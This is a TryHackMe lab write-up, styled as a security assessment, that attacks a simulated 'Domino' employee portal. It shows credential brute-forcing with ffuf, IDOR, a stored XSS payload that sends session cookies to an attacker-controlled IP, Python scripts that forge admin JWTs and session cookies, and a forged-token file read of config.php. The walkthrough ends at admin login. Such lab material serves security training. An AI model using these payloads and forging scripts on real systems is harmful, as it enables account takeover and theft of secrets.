# Domino Write-up

**Platform**: TryHackMe <br>
**Room**: Domino (https://tryhackme.com/room/domino) <br>
**Category**: Network | Web Application <br>
**Target**: Linux <br>
**Techniques**: Information Disclosure, Password Reuse, IDOR, XSS, JWT Manipulation, RFI, Privilege Escalation <br>
**Final Goal**: Root Access

## Executive Summary

This assessment evaluated the security of the **Domino** web application, an employee portal used to provide access to internal documents, user profiles and administrative functionality. The objective was to determine whether an attacker could identify vulnerabilities that would allow access to privileged functionality and ultimately compromise the underlying server.

The assessment identified several vulnerabilities, including weak authentication controls, insecure direct object references (IDOR), Cross-Site Scripting (XSS), insecure JWT handling, and Remote File Inclusion (RFI). These weaknesses could be chained together to obtain valid user credentials, access information belonging to an administrative account, manipulate authentication tokens, and ultimately achieve Remote Code Execution on the target.

The assessment highlights the importance of enforcing server-side access controls, protecting authentication mechanisms, securely handling user-controlled input, and preventing applications from loading executable content from untrusted sources. Addressing these vulnerabilities would significantly reduce the likelihood of an attacker progressing from a low-privileged account to full compromise of the application server.

## Overview

Domino simulates an employee portal used by an organisation to manage user information, internal documents and administrative functionality. The objective is to assess the web application, identify vulnerabilities in its authentication and access control mechanisms, and determine whether these issues can be chained together to achieve remote code execution.

The room demonstrates a realistic web application attack chain involving:

- Service and web application enumeration
- User enumeration and password reuse
- Authentication using reused credentials
- Insecure Direct Object Reference (IDOR)
- Cross-Site Scripting (XSS)
- JWT token analysis and manipulation
- Information disclosure through exposed application configuration
- Remote File Inclusion (RFI)
- Credential reuse for local access
- Local privilege escalation

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.112.187.210
```

Where:
- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports rather than the default top 1,000.

The scan reveals two externally accessible services.



| Port | Service | Observation |
|------|---------|-------------|
| 22 | SSH | Potential management interface that may become useful if valid credentials are obtained. |
| 80 | HTTP | Public-facing web application and primary attack surface. |

Since the HTTP service presents the largest attack surface, the assessment continues with web application enumeration.

## Web Application Enumeration

With the attack surface narrowed to the web application, the next objective is to identify hidden resources that may not be linked directly from the application's interface.

Directory enumeration is performed using Gobuster:

```bash
gobuster dir -u "http://10.112.187.210" \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-r \
-x .php,.js,.html,.py,php.bak,.git,.env
```

The scan identifies several interesting endpoints.



Among the discovered resources are:

- `/index.php`
- `/admin`
- `/team.php`
- `/api`
- `/config.php`
- `/backup`
- `/dashboard`

These endpoints suggest that the application exposes functionality related to authentication, user management, internal APIs and configuration. Each discovered resource can therefore provide additional information about the application's attack surface.

Navigating to the website presents the application's login page.



The login page also contains a password reset mechanism and an **Our Team** page. The latter is particularly useful because it provides information about employees who may have accounts on the platform.

## User Enumeration

The **Our Team** page reveals several members of NexusCorp.



The usernames can be collected and placed into a custom wordlist for use during authentication testing:

```text
laura.hayes
michael.chen
sarah.johnson
robert.wilson
emma.taylor
david.brown
james.wright
```

The usernames are saved to a file named `nexususers.txt`.



The next step is to determine whether any of these accounts can be authenticated using commonly used or default passwords.

## Password Reuse

With the usernames collected, the next step is to determine whether any of the accounts use a weak or reused password.

**Ffuf** can be used to test the usernames against the `rockyou.txt` wordlist on the application's login endpoint. Ffuf is a web application fuzzing tool that can automate the submission of large numbers of input combinations to identify valid credentials or other unexpected responses.

Before constructing the command, the `/index.php` endpoint can be inspected in the browser. The username field requires the `firstname.lastname` format, so the usernames collected earlier can be used directly. The POST request contains two parameters named `username` and `password`.

The resulting command is:

```bash
ffuf -u http://10.112.187.210/index.php -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=W1&password=W2' -w nexususers.txt:W1 -w /usr/share/wordlists/rockyou.txt:W2 -fc 200
```

The important options are:

- `-u` specifies the target URL.
- `-X POST` specifies that the requests should use the HTTP POST method.
- `-H` adds the Content-Type header expected by the login form.
- `-d` specifies the POST data and defines the W1 and W2 injection points.
- `-w nexususers.txt:W1` uses the username wordlist for the `W1` position.
- `-w /usr/share/wordlists/rockyou.txt:W2` uses the `rockyou.txt` wordlist for the `W2` password position.
- `-fc 200` filters responses with HTTP status code 200, allowing different responses to successful authentication to stand out.



**Ffuf** identifies three accounts using the same password from the wordlist:

- `robert.wilson`
- `emma.taylor`
- `sarah.johnson`



This indicates that the three accounts may still be using a shared or default password.

## Initial Access

The recovered credentials can be used to authenticate as `robert.wilson`.



The dashboard identifies the account as a standard user and exposes several interesting features. In particular, it references an `/api` endpoint that provides access to internal documents through `/api/files.php?name=` and uses a JWT token obtained from `/api/auth/token.php`.

The dashboard also provides access to a support ticket system and an API for querying user profiles. These features provide several potential avenues for further assessment.

## Insecure Direct Object Reference

The **My Profile API** can be used to retrieve information about the currently authenticated user.

Navigating to the endpoint with the `id` parameter set to 4 returns information belonging to `robert.wilson`:



The `id` parameter directly determines which user's information is returned. This makes it possible to test whether the application verifies that the authenticated user is authorised to access the requested account.

Changing the parameter from 4 to 1 returns information belonging to another user `?id=1`:



The response contains information about `laura.hayes`, whose account has administrative privileges. The `notes` field also reveals the first flag.

This behaviour demonstrates an Insecure Direct Object Reference (IDOR). An IDOR occurs when an application exposes a reference to an internal object, such as a user ID, without properly verifying whether the requesting user is authorised to access that object. By modifying the identifier, an attacker can therefore access information belonging to another user.

In this case, the vulnerability allows the low-privileged `robert.wilson` account to retrieve information belonging to an administrator.

## Cross-Site Scripting

The next area of interest is the support ticket functionality. Before testing the ticket form, the application's cookies can be inspected through the browser's developer tools under **Storage → Cookies**.

The `nexus_session` cookie contains a JWT token and has the `HTTPOnly` flag set to `false`.



The `HTTPOnly` attribute prevents client-side JavaScript from directly accessing a cookie when it is enabled. Since the attribute is disabled here, JavaScript executed in the application's context can access the `nexus_session` cookie.

The support ticket form contains **Subject** and **Message** fields. Both can therefore be tested for **Cross-Site Scripting (XSS)**.

XSS is a vulnerability where an application incorporates attacker-controlled content into a web page without properly sanitising it, allowing JavaScript to execute in another user's browser.

To test whether the submitted content is rendered as HTML or JavaScript, a Python web server is started on the AttackBox:

```bash
python3 -m http.server
```

The server listens on port `8000` by default.

The following values are submitted to the ticket form, replacing the IP address with the AttackBox IP:

```text
http://10.112.77.141:8000/subject
```
in the **Subject** field, and

```text
http://10.112.77.141:8000/message
```
in the **Message** field.

Shortly after submitting the ticket, the Python server receives a request resulting in a `404` response because the requested `message` resource does not exist.



The request demonstrates that the contents of the **Message** field were interpreted as a resource by the browser, indicating that the field is vulnerable to XSS.

A new ticket can therefore be submitted with the following payload:

```text
<body onload="new Image().src='http://10.112.77.141:8000?c='+document.cookie;">
```



The payload attempts to access `document.cookie` and send its value to the AttackBox when the page loads.

The listener receives a connection, confirming that the JavaScript executed successfully. However, no useful session token is returned.


Although the XSS does not directly provide the session token, it confirms that attacker-controlled JavaScript can execute in the application's context. The investigation therefore moves towards the JWT authentication mechanism.

## JWT Analysis

The dashboard indicates that an API token can be obtained from `/api/auth/token.php`.

The application also provides instructions stating that the returned token should be supplied as a Bearer token when accessing `/api/files.php`.



A **JSON Web Token (JWT)** is a signed token commonly used to represent claims about an authenticated user. A JWT typically consists of a header, payload and signature. The payload can contain information such as the username, role and token lifetime.

The token can be inspected using [jwt.io](https://www.jwt.io/). 



The token uses the HS256 signing algorithm and contains several claims:

- `sub` identifies the user.
- `role` specifies the user's role.
- `iat` records when the token was issued.
- `exp` specifies when the token expires.

The next step is to determine whether sensitive application information can be recovered from the files identified during the initial enumeration.

## Backup Configuration

The `/backup` directory discovered during Gobuster enumeration can be accessed directly.



The directory contains two files:

- `README.txt`
- `config.enc`

The `README.txt` file describes `config.enc` as an encrypted application configuration and specifies that it uses **AES-128-ECB** encryption. It also states that the decryption key can be found in the application's `static/app.js` deployment notes.



The `app.js` file can therefore be inspected to recover the information required to decrypt the configuration.

```python
(function() {
    'use strict';

    // Configuration (TODO: move to env before prod deployment - laura 2024-10-22)
    const CONFIG = {
        apiBase: '/api',
        // Encryption key for backup config decryption - AES-ECB-128
        // Key: REDACTED  (pad to 16 bytes with \x00)
        _backupKey: 'REDACTED',
        appVersion: '2.3.1'
    };

    // Session helper
    window.NexusApp = {
        getSession: function() {
            const cookie = document.cookie.split(';').find(c => c.trim().startsWith('nexus_session='));
            if (!cookie) return null;
            try {
                return JSON.parse(atob(cookie.split('=')[1].trim()));
            } catch(e) { return null; }
        },
        getApiToken: function() {
            return localStorage.getItem('nexus_jwt');
        },
        setApiToken: function(token) {
            localStorage.setItem('nexus_jwt', token);
        }
    };

    // Auto-fetch JWT if not cached
    if (!localStorage.getItem('nexus_jwt') && document.cookie.includes('nexus_session')) {
        fetch('/api/auth/token.php', {credentials: 'include'})
            .then(r => r.json())
            .then(d => { if (d.token) localStorage.setItem('nexus_jwt', d.token); })
            .catch(() => {});
    }
})();

```



## JWT Token Manipulation

The exposed application code provides the information required to generate a JWT using the application's signing mechanism.

Based on this information, a Python script named `forge.py` can be used to generate a token containing an administrative role.

```python
# Import the libraries needed to create and sign the JWT
import hmac, hashlib, base64, json, time

# Encode data using Base64 URL encoding without trailing '=' padding.
# JWTs use Base64 URL encoding for their header, payload, and signature.
def b64url(data):
    # Convert strings to bytes before encoding
    if isinstance(data, str):
        data = data.encode()
        # URL-safe Base64 encoding, then remove '=' padding
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

# Secret key used to generate the HMAC-SHA256 signature.
# This value was obtained from app.js.
secret = b'REDACTED'

# Create the JWT header and encode it with Base64 URL encoding.
# HS256 specifies HMAC using SHA-256 as the signing algorithm.
header  = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}, separators=(',', ':')))

# Create the JWT payload containing the desired claims.
payload = b64url(json.dumps({
    "sub": "robert.wilson",
    "role": "admin",
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600
}, separators=(',', ':')))

# JWTs are signed over the Base64URL-encoded header and payload,
# separated by a dot.
msg = f"{header}.{payload}"

# Generate the HMAC-SHA256 signature using the secret key.
signature = hmac.new(secret, msg.encode(), hashlib.sha256).digest()

# Combine the header, payload, and signature to form the final JWT.
print(f"{msg}.{b64url(signature)}")
```

The generated token can then be used to access the application's file retrieval functionality and read `config.php`.

```bash
curl -s "http://10.112.187.210/api/files.php?name=/var/www/html/config.php" \
-H "Authorization: Bearer <Forged Token>"
```

The response reveals several application secrets, including:

- `DB_PASS`
- `DBUSER`, set to `nexusdb`
- `JWT_SECRET`
- `APP_SECRET`



The `JWT_SECRET` value contained in `config.php` does not match the key used to generate the token. The successful acceptance of the forged token therefore indicates that the application is not properly validating the JWT signature.

This provides a second opportunity to manipulate the application's authentication state using the recovered `APP_SECRET`.

## Administrator Authentication

The recovered `APP_SECRET` can be used to generate a valid `nexus_cookie` for the administrator account identified earlier through the IDOR vulnerability.

A Python script named `forgeadmin.py` is used to construct the cookie:

```python
import hmac, hashlib, base64, json

# Eecovered Secret key used for signing the payload to ensure data integrity
secret = b'<APP_KEY value>'  

# Define the user data payload and convert it to a compact JSON string (no whitespace)
payload = json.dumps(
    {"user_id": 1, "username": "laura.hayes", "role": "admin"},
    separators=(',', ':')
)

# Encode the JSON string to bytes, convert it to Base64 bytes, and decode back to a UTF-8 string
b64 = base64.b64encode(payload.encode()).decode()

# Generate a cryptographic HMAC-SHA256 signature of the Base64 string using the secret key
signature = hmac.new(secret, b64.encode(), hashlib.sha256).hexdigest()

# Output the final token in a standard format: [Base64Payload].[Signature]
print(f"{b64}.{signature}")
```

The resulting token can be placed in the `nexus_cookie` value through the browser's developer tools.

After replacing the existing cookie and reloading the page, the application recognises the session as the `laura.hayes` administrator account.

